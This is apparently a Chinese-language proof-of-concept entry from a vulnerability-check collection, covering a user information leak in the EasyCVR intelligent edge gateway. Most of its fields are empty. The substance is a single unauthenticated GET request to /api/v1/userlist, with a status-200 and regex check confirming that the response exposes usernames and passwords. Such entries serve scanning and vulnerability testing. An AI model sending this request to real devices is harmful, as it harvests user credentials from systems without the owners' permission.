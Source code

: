 ﻿# EasyCVR智能边缘网关用户信息泄漏漏洞

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /api/v1/userlist?pageindex=0&pagesize=10 HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?Username)(?=.*?Password).*?$

> 上传文件定位：

> 验证文件来源：EasyCVR智能边缘网关用户信息泄漏漏洞.poc
